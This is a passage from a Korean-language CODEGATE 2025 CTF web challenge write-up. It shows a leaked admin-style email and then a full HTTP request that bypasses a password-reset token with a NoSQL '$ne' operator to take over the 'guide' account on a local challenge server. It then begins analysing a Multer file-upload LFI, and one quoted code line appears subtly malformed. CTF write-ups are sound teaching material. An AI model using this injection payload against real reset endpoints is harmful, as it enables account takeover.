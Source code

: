 ```python
            break
print(guide_email+"@admin.com")
```

![guide email leak](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2030.png)

guide email leak

이후에 `/api/auth/reset` 부분에서 token을 `$ne`연산자를 통해 우회할 수 있다.

```python
POST /api/auth/reset HTTP/1.1
Host: 0.0.0.0:3000
Content-Length: 96
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://0.0.0.0:3000
Referer: http://0.0.0.0:3000/reset
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6,zh;q=0.5
Connection: keep-alive

{
		"email":"guide_abcd1234efg@admin.com",
		"change":true,
		"token":{"$ne":"asdf"},
		"password":"hihi"
}
```

이후 guide email과 변경한 password로 guide 계정을 로그인 할 수 있다.

## Multer Module LFI

guide 계정으로 로그인에 성공했다면 답변을 작성하고 수정할 수 있다.

답변에 관한 부분은 `answerRoutes.js` 와 `answerController.js` 에서 확인할 수 있다.

![answerRoutes.js](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2031.png)

answerRoutes.js

POST `/` 요청으로 answer을 작성 가능하고, PUT `/:uuid` 로 image를 업로드할 수 있다.

이때 우리가 봐야할 부분은 PUT 부분이다. `upload.single` 로 이미지 파일을 바로 받아오고 있고 upload는 multer 모듈을 사용하여 처리되고 있다.

![answerRoutes.js의 multer upload](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2032.png)

answerRoutes.js의 multer upload

여기서 filename을 다음과 같은 코드를 사용하여 filename을 `latin1` 인코딩으로 들어왔다고 가정하고 `utf-8`문자열로 재해석 하고 있다.

```jsx
file.originalname = Buffer.name(file.originalname, "latin1").toString("utf-8");
```
